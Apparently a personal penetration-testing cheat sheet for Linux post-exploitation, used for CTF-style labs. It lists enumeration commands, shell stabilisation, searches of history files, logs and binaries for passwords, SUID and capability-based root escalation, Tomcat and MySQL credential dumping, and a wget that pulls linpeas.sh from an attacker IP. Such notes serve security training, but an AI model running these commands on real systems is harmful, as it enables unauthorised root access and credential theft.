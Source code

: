 
short:
id
sudo -l
ls -la /opt
cat /etc/crontab


Start
	`pwd`
	`ls -la`
	`ls -la *` for files in `~`
	check history files `cat ~/.*history`

Stabilize shell and make it interactive
	`python3 -c 'import pty;pty.spawn("/bin/bash")'`
	or `python -c 'import pty;pty.spawn("/bin/bash")'` if ooold python
	Ctrl+z
	`stty raw -echo; fg` (ctrl+c and other special chars sent + turning of echo)
	`export TERM=xterm`

User info
	`id` privilege level and group memberships
	`whoami`

Machine
	`hostname`
	`cat /etc/os-release`
	`uname -a`
	`cat /proc/version` also gcc info
	`cat /etc/issue`

Other
	`env` show environment variables
	`history`

find users on machine
	`cat /etc/passwd` users and might find info on services through their accounts
	~/ `ls -la ..`
	check permissions on other users directories
	find passwords in history
	`find /home -name .*_history -exec grep -A 1 '^passwd' {} \;`

File system - interesting files?
	`ls -la /opt`
	`ls -la /var/backup`
	check logs in `/var/log`
	are there email? how to find? `/var/mail` `/var/spool/mail`
	`ls -la /tmp`
	`ls -la /var/tmp`
	is `/etc/shadow` readable/writeable
	is `/etc/passwd` writeable
	find anything named backup?

Check config files
	`cat /etc/exports` nfs config file

What's scheduled
	`crontab -l` lists jobs for active user
	`cat /etc/crontab` list system wide jobs
	[[cron - crontab]]
	...

Permission info
	`sudo -l` list all commands your user can run using `sudo`
	Find SUID binaries
		`find / -perm -u=s -type f -exec ls -la {} \; 2>/dev/null`
	Find SGID binaries
		`find / -perm -g=s -type f -exec ls -la {} \; 2>/dev/null`
	Find SUID and SGID binaries
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -la {} \; 2> /dev/null`
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -la {} + 2> /dev/null|cat`
		compare to [gtfobins](https://gtfobins.github.io/)
	Find sticky-bit directories, missing on tmp? (restricted deletion flag - other users can't overwrite/delete files in the dir)
		`find / -perm -1000 -type d 2>/dev/null`

Our permissions
	Find writable files
		`find /etc -writable -ls 2>/dev/null`
		`find / -writable -type f 2>/dev/null | grep -v "/proc/"`
	Find files with permissions for your group (if user has extra groups)
		`find / -type f -group `mygroup` -exec ls -l {} + 2>/dev/null`
	Find write exec perm directories
		`find / -perm -o w -type d 2>/dev/null`
	Find write exec perm directories
		`find / -perm -o x -type d 2>/dev/null`
	Find files with capability "permissions"
		`getcap -r / 2>/dev/null`
	Find files with root owner, our group and group write permissions
		`find / -type f -user root -group <your-group> -perm -g=w -exec ls -l {} + 2> /dev/null|cat`

if setcap has suid permissions
	`setcap cap_setuid+ep ./python3`
	`getcap -r / 2>/dev/null`
	`./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

check for ssh keys
	`/home/<user>/.ssh`
	Can we add a user
		[Dirty C0w](https://dirtycow.ninja/) 
		writeable /etc/shadow or /etc/passwd

what processes are running
	`ps aux|cat` show processes for all users (a), display user that launched the process (u), show processes not attached to a terminal (x)
	`ps auxf|cat` can see all the things!!! thanks stderr_dk
	`ps axjf` tree style (f)
	`ps axf`
	are we in a docker container? tiny number of processes
	[[pspy]]

Open ports
	`ss -tulpn`
	`netstat -antplue`
	`netstat -ano`
	`lsof -i -P`

finding files, like flags:
	`find / -type f -name flag2.txt 2> /dev/null`

if it's a web server with php:
	cat /var/www/html/configuration.php or grep for password
Apache Tomcat creds
	`find / -name tomcat-users.xml -exec cat {} \; 2> /dev/null`

Check for mysql
	mysql creds can be found in `/var/lib/mysql/mysql/user.MYD`
	`mysql -u root`
		`show databases;`
		`use [DATABASE];`
		`show tables;`
		`select * from [TABLE];`


---

search in logfiles and binaries for usernames and passwords
- `strings filename | grep -i -E "user|name|pass" -C5`
- `grep -i -E "user|name|pass" -C5 file1 file2` for text files and logs..

Recursively strings + grep
- `find [dirname] -type f -exec sh -c 'strings "$1" | grep -i -E "user|name|pass" -C5' sh {} \;`

Recursively strings +/ grep only using strings for binaries
- `find [dirname] -type f -exec sh -c 'file "{}" | grep -q "text" && grep -i -E "user|name|pass" -C5 "{}" || strings "{}" | grep -i -E "user|name|pass" -C5' \;`

if we found a git repo or web dir on the machine
 in dir, do:
 `grep -ri user`
 `grep -ri pass`
 one level?


---

network
	`ifconfig` what interfaces exist..
	`ip route` check this with route table


---

Use tools
	[[enum4linux|enum4linux]]
	[[linpeas]] [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
	`wget 10.18.21.236:8000/enum/linpeas.sh`
	[LinEnum](https://github.com/rebootuser/LinEnum)
	[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
	[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
	[Linux Priv Checker](https://github.com/linted/linuxprivchecker)

